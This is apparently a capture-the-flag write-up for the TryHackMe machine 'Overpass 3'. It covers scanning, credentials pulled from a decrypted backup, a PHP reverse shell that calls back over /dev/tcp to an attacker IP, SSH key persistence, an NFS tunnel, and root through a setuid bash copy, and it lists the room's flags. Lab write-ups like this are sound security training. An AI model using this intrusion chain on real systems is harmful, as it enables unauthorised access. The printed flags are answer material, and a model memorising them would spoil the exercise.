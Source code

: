 > Overpass 3

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix
```

# Dirb

dirb http://$IP

```
> DIRECTORY: http://10.10.224.11/backups/
+ http://10.10.224.11/cgi-bin/ (CODE:403|SIZE:217)                     
+ http://10.10.224.11/index.html (CODE:200|SIZE:1770) 
```

# /backups

We got `backup.zip`. On unzipping it we got 2 files `private.key` and `CustomerDetails.xlsx.gpg`.

1. gpg --import private.key
2. gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xslx

And opening them we got usernames ,password, credit card numbers and their CVV's.

`paradox`:`ShibesAreGreat123`
`0day`:`OllieIsTheBestDog`
`muirlandoracle`:`A11D0gsAreAw3s0me`

And looks like paradox user has a valid password for FTP. Let's try to add a file and look if it reflects on the webpage. And looks like we can add file in FTP and access the in webpage. Let's try to get a reverse shell now. Since we know we are runing php from nikto result, we can get a PHP payload.

```php
<?php
exec("bash -i >& /dev/tcp/10.8.107.21/4444 0>&1");
?>
```

We got a shell as `apache`. And got our flag at `/usr/share/httpd`.

# web.flag

```
thm{0ae72f7870c3687129f7a824194be09d}
```

We can use su to change user as paradox and use the password we found in the xlsx file. Also we can find .ssh dir in his home. Hopefully we can get a stable shell. Let's generate SSH keypair using sshgen.

# <victim>

1. Copy created public key and add it to `/home/paradox/.ssh/authorized_keys`.

# <Attacker>

1. ssh -i id_rsa paradox@overpass.thm

We got a stable shell. Now running linpeas we found an interesting hit.

```bash
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

Looks like we can mount `/home/james *` and we can access it from as a client and write inside that directory as if you were the local root of the machine.

rpcinfo -p

```bash
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```

showmount -e localhost

```bash
Export list for localhost:
/home/james *
```

And it seems that /home/james dir is exportes locally on port 2049. Let's tunnel it!

ssh -i id_rsa -N -L 2049:localhost:2049 paradox@overpass.thm

And we have it tunneled locally.

1. mkdir /tmp/mount
2. sudo mount -v -t nfs localhost: /tmp/mount

And we got the flag in /tmp/mount dir.

# user.flag

```
thm{3693fc86661faa21f16ac9508a43e1ae}
```

And as suggested from linpeas let's try the recommended methof copying bash binary. Also we can find /.ssh directory in the mounted dir. We can get james id_rsa file.

# /tmp/mount

1. cp /bin/bash .
2. chmod +s bash

We can ssh as james and now we see the bash binary. Running `./bash -p` we are root.

# root.flag

```
thm{a4f6adb70371a4bceb32988417456c44}
```